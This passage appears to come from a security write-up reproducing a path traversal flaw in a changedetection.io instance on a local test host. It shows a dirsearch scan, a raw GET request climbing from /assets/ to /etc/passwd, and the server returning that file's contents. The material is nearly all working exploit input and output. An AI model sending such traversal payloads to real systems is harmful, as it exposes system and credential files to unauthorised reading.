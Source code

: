 The `Proof of Concept (PoC)` tried to access `/static/` and so we firstly verified that the directory actually exists on the box. To do this we performed a quick `Directory Brute Forcing` using `dirsearch`.

```c
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://127.0.0.1:8081/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_127.0.0.1_8081/__24-10-20_11-54-19.txt

Target: http://127.0.0.1:8081/

[11:54:19] Starting: 
[11:54:34] 403 -   14B  - /assets/                                          
[11:54:34] 403 -   14B  - /assets                                           
                                                                             
Task Completed
```

Since we only found a `/assets/` we tried to execute it there and got lucky!

```c
GET /assets/../../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="129", "Not=A?Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: remember_token=defaultuser@changedetection.io|944643701d7eaf4435d6dabf09180720963153a8510359fc4aeee7eeaec680dc962b5017f211f9a49bcba9441023e354878583f2030cb7c112c3e68ed9008e85
Connection: keep-alive


```

```c
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Etag: "17fd638c3d6090a6-7c0"
Last-Modified: Fri, 11 Oct 2024 11:48:06 GMT
Content-Length: 1984
Accept-Ranges: bytes
Date: Sun, 20 Oct 2024 09:54:44 GMT
Server: Python/3.9 aiohttp/3.9.1

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```